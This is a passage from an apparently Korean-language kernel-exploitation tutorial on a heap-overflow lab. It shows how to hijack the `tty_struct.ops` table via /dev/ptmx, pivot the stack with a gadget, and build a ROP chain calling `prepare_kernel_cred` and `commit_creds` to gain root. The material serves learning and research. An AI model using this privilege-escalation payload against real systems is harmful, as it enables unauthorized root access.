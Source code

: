 여기서는 `ops` 멤버 변수를 사용한다. `tty_struct.ops`는 함수 테이블로, `open()`, `write()`등의 함수가 호출되었을 때 어떤 함수를 호출할지에 대한 정보가 다음과 같이 기록되어 있다.

```c
// Def. in /include/linux/tty_driver.h, line 349 (@linux-6.0.19)
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	void (*cleanup)(struct tty_struct *tty);
	ssize_t (*write)(struct tty_struct *tty, const u8 *buf, size_t count);
	int  (*put_char)(struct tty_struct *tty, u8 ch);
	void (*flush_chars)(struct tty_struct *tty);
	unsigned int (*write_room)(struct tty_struct *tty);
	unsigned int (*chars_in_buffer)(struct tty_struct *tty);
	int  (*ioctl)(struct tty_struct *tty,
		    unsigned int cmd, unsigned long arg);
```

여기서는 index가 12인 `ioctl` 필드를 우리가 원하는 주소로 덮어서 흐름을 임의로 조작할 수 있다. 즉 위에서 열어둔 `/dev/ptmx`에 대해 `ops` 변수를 조작해 `ioctl()`에 대한 동작을 우리가 원하는 것으로 바꾸고, `ioctl()`을 실행하면 우리가 원하는 주소로 실행 흐름을 옮길 수 있다는 것이다. 
이를 위해서 heap상 어딘가에 가짜 `tty_operations[]`를 만들고, ops를 이 주소로 덮어씌우면 우리가 원하는 곳으로 실행 흐름을 옮기는 것이 가능하다. 이때 `tty_struct + 0x38가` 자기 자신을 가리키고 있다는 사실을 이용하면 heap상에서 `g_buf`의 주소를 알 수 있다.

또한 `rsp`를 stack이 아닌 heap상의 임의 주소로 옮겨야 구성한 ROP Chain을 따라오게 된다. 이때 `ioctl()`실행 직후 레지스터를 관찰하면

![ioctl_result.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk02-heap-overflow/ioctl_result.png)

두 번째 인자가 `rcx`, `r12` 레지스터에 하위 4바이트만 저장되고 세 번째 인자가 온전히 `rdx`, `r8`, `r14`에 저장된다는 것을 알 수 있고, 따라서 다음과 같은 가젯을 사용할 수 있다.

```c
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
```

이들을 전부 합치면 다음과 같은 payload 구성이 가능하다.

```c
    unsigned long *p = (unsigned long *)buf;
    p[12] = push_rdx_mov_ebp_415bffd9h_pop_rsp_r13_rbp;  // ioctl 호출 시 이리로 jmp

    unsigned long *chain = &p[13];    // rsp가 이동할 자리임
    *chain++ = 0xdeadbeef;            // r13 (쓰레기)
    *chain++ = 0xdeadbeef;            // rbp (쓰레기)
    *chain++ = pop_rdi_ret;
    *chain++ = 0;
    *chain++ = prepare_kernel_cred;
    *chain++ = pop_rcx_ret;
    *chain++ = 0;
    *chain++ = mov_rdi_rax_ret;
    *chain++ = commit_creds;
    *chain++ = swapgs_restore_regs_and_return_to_usermode;
    *chain++ = 0xdeadbeef;
    *chain++ = 0xcafebabe;
    *chain++ = win;
    *chain++ = user_cs;
```

[^1]: SLUB Allocator에 대한 내용은 추후 깊게 다뤄볼 예정이다. 여기서는 우선 같은 bin에 속한 청크일지라도 크기가 다를 수 있는 유저영역과 달리 `bin`과 비슷한 `kmalloc-N`에서는 같은 크기의 청크들이 들어있다는 것만 알면 된다. (예를 들어 `kmalloc-1024`에는 항상 크기가 1024인 청크들만 존재한다.)
[^2]: 구조체에서 0x18 오프셋에 있는 값(위에서 말한 커널 영역의 어딘가)들은 번갈아가면서 나온다. 예를 들어 `g_buf+0x418`에 `0x1111`이 적혀있다면 그 다음 구조체인 `g_buf+0x818`에서는 `0x2222`, 그 다음 구조체인 `g_buf+0x400*3+0x18`에는 다시 `0x1111`이 적혀 있는 식이다. 이들이 모두 커널 영역의 주소라는 사실을 쉽게 알 수 있다. 여기서는 짝수 번째에 나오는 값을 사용해 offset을 계산했다.